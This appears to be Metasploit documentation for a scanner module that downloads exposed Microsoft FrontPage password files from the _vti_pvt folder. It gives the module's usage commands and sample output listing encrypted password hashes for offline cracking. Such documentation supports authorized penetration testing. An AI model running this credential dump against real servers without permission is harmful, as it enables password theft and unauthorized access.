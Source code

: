 ## Description
When Microsoft FrontPage is run on a non-IIS web server it creates encrypted password files in the _vti_pvt folder. When this folder is accessible, these files can be downloaded and parsed to obtain encrytped passwords. These encrypted passwords can then be cracked offline and used to gain further access to the server.

Affected Files:

 * administrators.pwd
 * authors.pwd
 * service.pwd

Citations:
 * https://msdn.microsoft.com/en-us/library/cc750050.aspx
 * http://sparty.secniche.org/

## Usage
```
use auxiliary/scanner/http/frontpage_credential_dump
set RHOSTS 10.10.10.10
set TARGETURI about
run
```

## Standard Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[+] 10.10.10.10 - service.pwd
[+] # -FrontPage-
[+] username:kLAsISPJ8AsaQ

[+] 10.10.10.10 - administrators.pwd
[+] # -FrontPage-
[+] username:wMyvw3d3c1oWU

[+] 10.10.10.10 - authors.pwd
[+] # -FrontPage-
[+] username:wMyvw3d3c1oWU

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Verbose Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[*] Requesting: /about/_vti_pvt/service.pwd
[*] Found /about/_vti_pvt/service.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - service.pwd
[+] # -FrontPage-
[+] username:kLAsISPJ8AsaQ

[*] Requesting: /about/_vti_pvt/administrators.pwd
[*] Found /about/_vti_pvt/administrators.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - administrators.pwd
[+] # -FrontPage-
[+] username:wMyvw3d3c1oWU

[*] Requesting: /about/_vti_pvt/authors.pwd
[*] Found /about/_vti_pvt/authors.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - authors.pwd
[+] # -FrontPage-
[+] username:wMyvw3d3c1oWU

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
